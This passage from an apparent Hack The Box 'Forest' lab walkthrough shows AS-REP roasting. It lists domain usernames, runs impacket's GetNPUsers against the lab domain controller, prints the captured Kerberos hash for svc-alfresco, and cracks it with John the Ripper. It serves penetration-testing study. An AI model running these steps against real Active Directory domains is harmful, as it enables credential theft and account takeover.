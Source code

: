 Take the above usernames and save them in the file _usernames.txt._

```text
root@kali:~/Desktop/htb/forest# cat usernames.txt 
Administrator
DefaultAccount
krbtgt
sebastien
lucinda
svc-alfresco
andy
mark
santi
rc
ln
```

Now I have a bunch of usernames but no passwords. If Kerberos pre-authentication is disabled on any of the above accounts, we can use the [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) impacket script to send __a dummy request for authentication. The Key Distribution Center \(KDC\) will then return a TGT that is encrypted with the user’s password. From there, we can take the encrypted TGT, run it through a password cracker and brute force the user’s password.

When I first did this box, I assumed the Impacket script requires a username as a parameter and therefore ran the script on all the usernames that I found. However, it turns out that you can use the script to output both the vulnerable usernames and their corresponding encrypted TGTs.

```text
GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request
```

We get back the following result.

![](https://miro.medium.com/max/1421/1*hEVdVciXL8Uf8Or5CEqKSA.png)

The Kerberos pre-authentication option has been disabled for the user _svc-alfresco_ and the KDC gave us back a TGT encrypted with the user’s password.

Save the encrypted TGT in the file _hash.txt_.

```text
root@kali:~/Desktop/htb/forest# cat hash.txt                                                                
$krb5asrep$svc-alfresco@HTB:4ca6507622ec86fa1a1c8e6ed6c9070f$670b846a8ba6ee243b9cad85657328fdf5624df615750cf3eeaa364b04ae9225ecaff4cf8994bb71fd4c07c9d406c6c30b1a1f899bde7bb9eb4df3e83fa07fc4405994a1bbd7a9fb6105342f78e5ca1ae8797b136f1eaecebd11eefeec83062b0142081208ef51cc17cbecf1fa7a88fad24aee856a539668fb3b9eae917cb6efb57df72a533f893c715bb0216f63c6df345e66fe66777ecfe98c8b516c905d4a81c7e6a4b5d3a3779ddf1ccad98e062f9bfc40596b24bd7685892f4ce22d44dcbf9aa2594748f81e2b7cc369390fab61d8cc7e5eeb2b987e4e52c9fab5f9a184
```

Crack the password using John the Ripper.

```text
john  --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
